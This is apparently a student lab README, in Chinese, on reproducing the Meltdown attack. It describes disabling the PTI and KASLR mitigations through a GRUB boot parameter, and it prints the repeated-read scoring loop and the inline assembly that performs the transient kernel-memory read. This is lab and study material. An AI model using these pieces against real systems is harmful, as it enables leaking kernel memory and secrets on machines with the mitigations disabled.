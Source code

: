 # Lab04
## 实现流程
1. 首先进行检查，发现内核有PTI补丁。

2. 关闭PTI补丁，在/boot/grub/grub.cfg中找到linux /boot/vmlinuz-4.13.0-45-generic.efi.signed root=UUID=..... 后面加上nopti 和 nokaslr。

3. 编写meltdown.c文件进行攻击，撰写MakeFile,可在meltdown.sh脚本中更改参数，之后运行./meltdown.sh脚本即可。

## 关键步骤

1. 设定一个全局数组，用于用来观察哪个值的读取时间快来确认攻击地址的值，在初始和每一次读取结束后都需要用memset清空，最后比较，时间最短者即为读取的字节内容。

2. 重复读取

        for (int i=0;i<1000;i++){
                    score[readbyte(fd,addr)]++;
        }

对每个字节重复读取选可能性最大的值。

3. 仿照原meltdown的Github网站编写主要进行攻击的汇编代码。

        __asm__ volatile (
            ".rept 300\n\t"
            "add $0x141, %%rax\n\t"
            ".endr\n\t"
            "movzx (%[addr]), %%rax\n\t"
                "shl $12, %%rax\n\t"
                "mov (%[target], %%rax, 1), %%rbx\n"
            :
            : [target] "r" (check),
              [addr] "r" (addr)
            : "rax","rbx"
        ); 

